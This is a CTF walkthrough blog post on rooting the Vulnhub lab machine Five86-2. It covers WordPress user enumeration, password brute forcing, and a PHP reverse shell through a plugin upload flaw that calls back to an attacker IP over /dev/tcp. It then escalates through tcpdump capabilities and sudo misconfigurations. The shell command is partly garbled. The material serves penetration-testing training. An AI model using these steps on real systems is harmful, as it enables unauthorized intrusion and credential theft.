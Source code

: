 ```yaml
---
title: 'Five86-2: Vulnhub Walkthrough'
date: 2020-01-22T18:36:00+01:00
draft: false
---
```


Today we are sharing another CTF walkthrough of the vulnhub machine named Five86-2 with the intent of gaining experience in the world of penetration testing. The credit goes to m0tl3ycr3w and syed umar for design this machine and the level is set to beginner to advanced.

According to the author: The ultimate goal of this challenge is to get root and to read the one and only flag.

Linux skills and familiarity with the Linux command line are a must, as is some experience with basic penetration testing tools.

Download it from here: **https://ift.tt/30UMyCR**

### **Penetration Testing Methodologies**

**Network scanning**

*   Netdiscover
*   Nmap

**Enumeration**

*   Exploring Http services
*   WordPress scanning (Wpscan)

**Exploit WordPress**

**Privilege Escalation**

*   Abusing capability
*   Abusing Sudo

**Walkthrough**

### **Network Scanning**

As you know, this is the initial phase where we choose **netdiscover** for network scan for identifying host IP and this we have **192.168.0.114** as our host IP.

![](https://i1.wp.com/1.bp.blogspot.com/-GA5Q4WM9s4I/XiiDCq_y7FI/AAAAAAAAiT4/FYxsJ4abAjkcM7VoehA29MyLhr0yEu0gQCLcBGAsYHQ/s1600/1.png?w=687&ssl=1)

```
nmap -A 192.168.0.114
```

From its scanning, we found port 21 is open for FTP and port 80 is open HTTP where wordpress is running on apache.

![](https://i0.wp.com/1.bp.blogspot.com/-SLDFGaE9z20/XiiDFiVzJmI/AAAAAAAAiUU/KtGe8XkltIsARI-BlbQHsd1wP4Pqh5E8wCLcBGAsYHQ/s1600/2.png?w=687&ssl=1)

### **Enumeration**

Thus, we navigate to a web browser and browse the following URL and found open wordpress application is running on the webserver.

```
http://192.168.0.114
```

![](https://i1.wp.com/1.bp.blogspot.com/-y46J0YWmzyQ/XiiDGDuwloI/AAAAAAAAiUc/t4TXZyunkW4zhsrbwFg6Mz9aOipuXjnZQCLcBGAsYHQ/s1600/3.png?w=687&ssl=1)

Since we found the wordpress on the host machine thus we choose wpscan and run following commands for wordpress scanning.

```
 wpscan --url http://192.168.0.114 --enumerate u
```

![](https://i2.wp.com/1.bp.blogspot.com/-cFMPFHQ64IU/XiiDGqj_gQI/AAAAAAAAiUg/dj7iJW8J__8mexsDiD8DK7GrczjRykSKQCLcBGAsYHQ/s1600/4.png?w=687&ssl=1)

From its scanning result, we enumerated 5 usernames: peter, admin, barney, gillian, Stephen as shown in the image below.

![](https://i1.wp.com/1.bp.blogspot.com/-QE0Se1sP08g/XiiDHP_PgPI/AAAAAAAAiUk/Y_0qVMcSQgQIsivBqUz3Il5tMkjlp6tGgCLcBGAsYHQ/s1600/5.png?w=687&ssl=1)

We used rockyou.txt wordlist for password brute force attack to enumerate the password, so we saved above-mentioned username in a text file named user.txt and then launched brute force attack by executing the following command.

```
wpscan --url http://192.168.0.114  -U user.txt -P /usr/share/wordlists/rockyou.txt
```

![](https://i2.wp.com/1.bp.blogspot.com/-ZKYPapsR0J8/XiiDHS41MOI/AAAAAAAAiUo/pNI4apKJh1w7yT1tw2RV7iqV-H7JqNoiQCLcBGAsYHQ/s1600/6.png?w=687&ssl=1)

From its scanning result, we found a password for barney and stephen as given below.

```
Barney:spooky1  
Stephen: apollol
```

![](https://i0.wp.com/1.bp.blogspot.com/-rhh2yKATz3Q/XiiDHpvofcI/AAAAAAAAiUs/0RFeUd8jocsT6MxLsYT1AnWg--gC_8KCwCLcBGAsYHQ/s1600/7.png?w=687&ssl=1)

To access the website properly we added the hostname and host IP within /etc/hosts file.

![](https://i2.wp.com/1.bp.blogspot.com/-U0aGbVcP7OM/XiiDIAkhLuI/AAAAAAAAiUw/7zHtCpQEsekd6jTl730dOANbbqOEIj78QCLcBGAsYHQ/s1600/8.png?w=687&ssl=1)

Furthermore, using the Barney login credential we logged in to the wordpress and found a plugin “Insert or Embed Articulate Content into WordPress” was installed. We searched in the google to find out more about it and found a method on **[Exploit\_DB](https://www.exploit-db.com/exploits/46981)** to exploit this plugin to obtain a reverse connection.

![](https://i0.wp.com/1.bp.blogspot.com/-z0-jWJlcu3o/XiiDIR39wDI/AAAAAAAAiU0/Ly3-YckuQ1My4HrBPCdovgIAxeG5ikPUgCLcBGAsYHQ/s1600/9.png?w=687&ssl=1)

Exploiting WordPress         

For exploiting WordPress installed plug-in follow the step given below.

1.  Create a .zip archive with two files as: index.html, index.php

```
echo "hello" > index.html  
echo "& /dev/tcp/192.168.0.115/1234 0>&1'");" > shell.php  
zip raj.zip index.html shell.php
```

![](https://i1.wp.com/1.bp.blogspot.com/-d7Hn_WL3Atk/XiiDCczAXXI/AAAAAAAAiT0/h1_L-8Tgoro_7xXbA3h5JcLB_mFiT1aqQCLcBGAsYHQ/s1600/10.png?w=687&ssl=1)

2.  login to wordpress as barney
3.  Create a new Post -> Select `Add block` -> E-Learning ->

![](https://i2.wp.com/1.bp.blogspot.com/--aoPPvSVyJs/XiiDCQ3XyqI/AAAAAAAAiTw/L3WapXRfeE0I9BoZ4Q1jrouJlmnZ3HIhwCLcBGAsYHQ/s1600/11.png?w=687&ssl=1)

2.  Choose upload option for uploading your zip file.

![](https://i2.wp.com/1.bp.blogspot.com/-IjEAWouN6Rs/XiiDDk_fouI/AAAAAAAAiT8/VtrSrLtcuOUKOdc5CqniyE_u3YHsLlDJQCLcBGAsYHQ/s1600/12.png?w=687&ssl=1)

3.  Browse and Upload the raj.zip -> Insert as: Iframe -> Insert

![](https://i2.wp.com/1.bp.blogspot.com/-usVYLSZVhpw/XiiDD3_dBpI/AAAAAAAAiUA/t4bIJKqO1RwF7ZZvmwIEYUhWlaOCNbKiACLcBGAsYHQ/s1600/13.png?w=687&ssl=1)

Start netcat listener on your local machine and access the webshell from the URL after uploading the zip file as shown:

```
nc -lvp 1234  
five86-2/wp-content/uploads/articulate\_uploads/raj/shell.php
```

![](https://i0.wp.com/1.bp.blogspot.com/-ht_sk_AFzrk/XiiDENjaF2I/AAAAAAAAiUE/M9vpSxwl9Jo7xS5EqcomhWNXd4YtBFuygCLcBGAsYHQ/s1600/14.png?w=687&ssl=1)

Booom!! We got the reverse connection with the help of netcat session, but we know, this is a root to boot challenge hence we need to escalate the privilege try to gain access high privilege shell. So, we start post enumeration and find capability permission is given to Stephen for tcpdump.

```
su stephen  
apollo1  
python3 -c 'import pty;pty.spawn("/bin/bash")'  
getcap -r /2>/dev/null
```

So, we run the following command which reveals the UP & running interfaces.

```
tcpdump -D
```

![](https://i0.wp.com/1.bp.blogspot.com/-3gW-XX4U4DQ/XiiDEmObwyI/AAAAAAAAiUI/cdPhoO80NUwXEwMqN5-_eYCl79VuuDwLgCLcBGAsYHQ/s1600/15.png?w=687&ssl=1)

### **Privi****lege Escalation**

As we have seen in the above image that tcpdump has the capabilities to capture all network traffic even in low-privileged access, therefore I trigger the following command to inspect “**veth1665bcd**” traffic if possible, and save the output in a pcap file “cap.pcap”.

```
timeout 150 tcpdump -w cap.pcap -i veth1665bcd
```

With the help of of “-r” option we try to the pcap file and luckily found credentials

```
Username: paul  
Password: esomepasswford
```

![](https://i2.wp.com/1.bp.blogspot.com/-9HR0ZxT0S_w/XiiDFMjQ7SI/AAAAAAAAiUQ/Qn5GR7wq6kQvwjdctN_LmQQeLihU5R-fgCLcBGAsYHQ/s1600/16.png?w=687&ssl=1)

So with the help of above credential, we switch to paul account and check for sudo permission for him. We found paul has sudo permission to run /usr/sbin/service program as peter.

```
sudo -l  
sudo -u peter service ../../bin/sh
```

With the help above command, we were able to access shell as peter.

![](https://i2.wp.com/1.bp.blogspot.com/-ZSOPXxbMUrg/XiiDE8p1wVI/AAAAAAAAiUM/K3mwqe92T9o0xHH8nOpSiG7DND7g83KxACLcBGAsYHQ/s1600/17.png?w=687&ssl=1)

Then we check sudo right for peter and found he has ALL permission to run any program as root, but we don’t know Peter’s password and moreover peter owns sudo right for /usr/bin/passwd as root. In order to access root, we try to abuse the sudo permission by changing root’s password and try to get the final flag.

```
sudo passwd root  
new password: raj  
su root  
cd root  
cat flag.txt
```

![](https://i0.wp.com/1.bp.blogspot.com/-tZC1GfGlQgY/XiiDF6AUnuI/AAAAAAAAiUY/RxpKHPfRiKoEz1V0pcVeATWyZDBOxLiRwCLcBGAsYHQ/s1600/20.png?w=687&ssl=1)

**Author: **Shubham Sharma is a Pentester, Cybersecurity Researcher and Enthusiast, contact **[here](https://www.linkedin.com/in/shubham-sharma-626964153/)**.

The post [Five86-2: Vulnhub Walkthrough](https://www.hackingarticles.in/five86-2-vulnhub-walkthrough/) appeared first on [Hacking Articles](https://www.hackingarticles.in).

  
  
from Hacking Articles https://ift.tt/38zkCHd